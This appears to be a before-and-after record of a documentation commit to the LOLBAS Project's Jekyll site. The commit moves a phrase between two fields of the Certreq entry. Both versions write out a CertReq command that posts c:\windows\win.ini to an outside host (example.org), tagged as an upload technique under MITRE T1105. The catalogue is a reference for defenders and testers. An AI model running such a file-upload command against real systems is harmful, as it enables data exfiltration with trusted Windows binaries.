

Before and after one commit to LOLBAS-Project/LOLBAS-Project.github.io, a Jekyll site: the page built from _lolbas/Binaries/Certreq.md, in a window 1280 px wide. Shown: the whole page at 87% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1226 px from its top, so only the background shows below that.

```diff
--- a/_lolbas/Binaries/Certreq.md
+++ b/_lolbas/Binaries/Certreq.md
@@ -11,8 +11,8 @@ Commands:
     Privileges: User
     MitreID: T1105
     OperatingSystem: Windows 10, Windows 11
-  - Command: CertReq -Post -config https://example.org/ c:\windows\win.ini and show response in terminal
-    Description: Send the file c:\windows\win.ini to the endpoint https://example.org/ via HTTP POST
+  - Command: CertReq -Post -config https://example.org/ c:\windows\win.ini
+    Description: Send the file c:\windows\win.ini to the endpoint https://example.org/ via HTTP POST and show response in terminal
     Usecase: Upload
     Category: Upload
     Privileges: User
```
